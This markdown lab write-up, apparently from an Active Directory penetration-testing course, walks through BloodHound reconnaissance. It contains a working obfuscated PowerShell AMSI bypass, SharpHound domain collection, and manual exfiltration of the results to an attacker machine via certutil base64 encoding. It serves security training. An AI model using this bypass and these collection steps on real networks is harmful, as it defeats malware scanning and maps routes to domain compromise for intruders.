






# Lab 0 - BloodHound

- [Lab 0 - BloodHound](#lab-0---bloodhound)
  - [Import SharpHound.ps1](#import-sharphoundps1)

----

## Import SharpHound.ps1

First bypass AMSI by using https://amsi.fail.

```
$HQIGDE=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((1125+7951));[Ref].Assembly.GetType("System.Management.Automation.$([Char](65)+[char]([BYTE]0x6D)+[cHAR]([byTE]0x73)+[cHAr](105))Utils").GetField("$([ChAr](97)+[CHaR]([ByTe]0x6D)+[CHAR](177-62)+[ChaR](105))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([Char](65)+[char]([BYTE]0x6D)+[cHAR]([byTE]0x73)+[cHAr](105))Utils").GetField("$([ChAr](97)+[CHaR]([ByTe]0x6D)+[CHAR](177-62)+[ChaR](105))Context", "NonPublic,Static").SetValue($null, [IntPtr]$HQIGDE);
```

<br/>

Then import `SharpHound.ps1`:

```
cd C:\AD\Tools\BloodHound-master\Ingestors && . .\SharpHound.ps1
```

Run the collection script:

```
Invoke-BloodHound -CollectionMethod All -ExcludeDomainControllers
```

  

<br/>

Upload the output file to the attacker machine. First on the attacker machine, use https://gist.github.com/brianyaucy/5b4e49171a3e913f9382d4cd1cb204e1 to prepare a Python HTTP Server with Upload:

```
PythonHTTPServerWithUpload.py 80
```

However, it looks like firewall is blocking the traffic:

  

<br/>

Instead, use base64 to encode the output file first:

```
certutil -encode .\20210120045733_BloodHound.zip bh.txt
```

  

<br/>

Trim the first and the last line of the output, and then copy the words into a new file (`bh.txt`) in the attacker machine. After that, decode the base64 string and output as a ZIP file:

```
cat bh.txt | base64 --decode > bh_result.zip
```

  

<br/>

Start `Neo4j`:

```
neo4j start
```

Then start `bloodhound`:

```
bloodhound
```

<br/>

Use the upload function to upload the zip file:

  

<br/>

Use the Pre-Built Analytics query `Find Shortest Paths to Domain Admins` to see the path:

  

<br/>

